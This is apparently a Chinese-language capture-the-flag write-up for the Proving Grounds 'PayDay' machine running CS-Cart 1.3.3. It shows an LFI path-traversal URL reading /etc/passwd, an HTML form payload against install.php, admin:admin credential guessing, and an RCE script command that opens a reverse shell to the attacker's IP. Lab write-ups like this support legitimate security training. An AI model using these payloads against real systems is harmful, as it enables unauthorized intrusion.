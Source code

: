 ```yaml
---
title: Proving Grounds Practice-PayDay
date: 2025-5-27 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


## nmap

![image-20250527095256331](./PayDay/image-20250527095256331.png)

## web

![image-20250527101210208](./PayDay/image-20250527101210208.png)

扫出来很多目录，但是好多都是需要登录才能访问，筛选了一下重复的最终得到以下目录

```
/admin
/config
/classes
/image
/init
/install
/Thumbs.db 
```

在/install安装目录时发现了版本号，还有一个需要注意的是，他告诉验证码在php.php文件中，但是访问不到php.php，如果可以访问到到后面的安装步骤应该是可以看到默认密码的

![image-20250527101700398](./PayDay/image-20250527101700398.png)

使用`searchsploit`搜索`internetshop`没有相关漏洞，再搜索`cs cart`，1.3.3存在很多漏洞，尝试看看哪个可以成功利用

![image-20250527101913732](./PayDay/image-20250527101913732.png)

## exploit

### 'classes_dir' LFI 

目录穿越漏洞可以使用

```
http://192.168.243.39/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00
```

![image-20250527102827678](./PayDay/image-20250527102833296.png)

### 'install.php' Cross-Site Scripting 

跨站点访问漏洞也可以正常使用，按照使用说明，创建一个html文件，将url修改，然后访问不同的数字就可以访问install.php时安装的步骤

```
<html>
<form name="installform" method="post" action="http://<Victim Ip>/install.php">
<input type="text" name="step">
<input type="submit" id="nextbut" value="xss">
</form>
</html>
```

exp中推荐访问步骤三，步骤三中的内容是最丰富的

![image-20250527103730301](./PayDay/image-20250527103730301.png)

这些应该都是默认信息，可能安装时对其做了修改

### authenticated RCE--get shell

经过认证的RCE，在已经收集到的一些信息中没有找到登录相关的信息，但是这个exp给出了一个新的目录/skins目录，该目录下有admin用户

![image-20250527110908246](./PayDay/image-20250527110908246.png)

尝试弱密码爆破一下admin，经过几次简单尝试最终`admin:admin`成功登录，网上存在该漏洞的[自动化脚本](./https://github.com/jayngng/cs-cartv1.3.3)

```
python3 cs_cart.py --url http://192.168.243.39 -U admin -P admin -l 192.168.45.201 -p 1324
```

![image-20250527113424284](./PayDay/image-20250527113424284.png)

在config.php下找到了数据库账号密码，并且都是默认账号密码

![image-20250527113658823](./PayDay/image-20250527113658823.png)



## 提权

最终绕了一圈，patric用户是弱密码，密码就是用户名，直接登录即可，登录后该用户就有root权限

![image-20250527141504240](./PayDay/image-20250527141504240.png)